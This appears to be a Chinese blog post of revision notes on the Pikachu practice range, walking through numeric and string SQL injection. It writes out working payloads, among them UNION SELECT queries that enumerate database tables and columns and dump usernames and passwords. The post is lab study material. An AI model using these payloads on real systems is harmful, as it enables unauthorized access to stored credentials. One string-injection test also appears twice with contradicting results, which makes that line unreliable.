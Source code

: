 ```yaml
---
title: pikachu靶场
date: 2022-07-13 23:18:31
categories: 渗透测试
tags: 靶场
---
```


最近考试在即，对pikachu靶场的部分漏洞又做了一遍，相当于复习一下常规漏洞，由于图片较多，也懒得重新部署到图床上了，所以没有图片，看起来比较粗糙。



# SQL注入

## 数字型注入

后端sql查询语句为

`$query="select username,email from member where id=$id";`

id=1 and 1=1  回显正常

id=1 and 1=2 回显错误，存在注入

id=1 order by 2 回显正常存在2个字段

`id=1 union select 1,2`

id=1 union select 1,database() // Pikachu

`id=1 union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()`// 查表

![image.png](C:\Users\Lenovo\AppData\Local\Temp\Temp1_皮卡丘.zip\皮卡丘\WEB\靶机笔记\assets\image-20220614214800-agxsjbt.png)

`id=1 union select 1,group_concat(column_name) from information_schema.columns where table_name='users'`// 查列

![image.png](C:\Users\Lenovo\AppData\Local\Temp\Temp1_皮卡丘.zip\皮卡丘\WEB\靶机笔记\assets\image-20220614215128-5iaolvm.png)

`id=1 union select 1,group_concat(username,":",password) from users`


`id=1 union select 1,count(*) from users`// 猜记录数量


## 字符型注入

后端sql查询语句为

`$query="select id,email from member where username='$name'";`


`vince'+and+'a'%3d'a`// 正常回显 实则=vince' and 'a'='a,url编码输入

`vince'+and+'a'%3d'a` // 提示username不存在，存在注入
